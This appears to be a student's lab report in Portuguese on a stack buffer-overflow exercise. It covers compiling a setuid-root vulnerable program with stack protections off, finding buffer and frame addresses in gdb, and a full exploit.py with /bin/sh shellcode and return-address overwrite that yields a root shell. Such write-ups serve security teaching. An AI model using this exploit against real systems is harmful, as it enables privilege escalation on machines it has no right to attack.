



# Trabalho realizado nas Semanas #5 e #6

## Task 1 - Compreender o shellcode

Após compilar o programa com "make", verificamos que tanto a versão 32-bit como 64-bit funcionam da mesma maneira.



Porém, a opção execstack é importante para que o programa funcione, ao marcar a stack como executável devido a alguns mecanismos de segurança que previnem a execução.

## Task 2 - Programa Vulnerável

É dado um programa com uma vulnerabilidade de buffer-overflow, já que o programa usa strcpy(), que não verifica o tamanho do input em relação ao buffer. O programa tem como owner "root", pelo que se a vulnerabilidade for explorada com sucesso, um utilizador comum pode ter acesso a uma root shell.

```
$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
```

Iremos utilizar este programa para demonstrar um ataque na Task 3.

## Task 3 - Ataque

Para fazer debugging de stack-L1-dbg, teremos de executar a seguinte sequência de comandos usando gdb:

``` shell
$ gdb stack-L1-dbg
gdb-peda$ b bof
gdb-peda$ run
gdb-peda$ next
gdb-peda$ p $ebp                   # Frame pointer
$1 = (void *) 0xffffdfd8
gdb-peda$ p &buffer                # Endereço do buffer
$2 = (char (*)[100]) 0xffffdfac
gdb-peda$ quit
```

O objetivo aqui é saber a diferença entre os endereços do buffer e de retorno. Esta diferença diz-nos quanto espaço do buffer é necessário preencher antes de reescrever o return address.


*Figura 2 - endereços do buffer e de retorno*

Então, os endereços do buffer e de retorno são:
```
$ebp = 0xffffc918
&buffer = 0xffffc894
```

Devemos usar estes endereços para calcular as variáveis ret e offset, em exploit.py.

Partindo dos endereços obtidos, alteramos o código para o seguinte:

``` py
#!/usr/bin/python3
import sys

shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
start = 517 - len(shellcode) 
content[start:start + len(shellcode)] = shellcode

ret    = 0xffffc894 + start
offset = 0xffffc918 + 4 - 0xffffc894

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Notas:  
ret -> ao adicionar start ao endereço do buffer, obtemos o endereço de início do shellcode.  
offset -> a adição de 4 deve-se ao tamanho do endereço de retorno (4 bytes para 32-bit). A subtração de 0xffffc894 irá fazer o cálculo final do offset (40 bytes).

Com este código, conseguimos efetivamente abrir uma root shell:

  
*Figura 3 - exploit bem-sucedido*
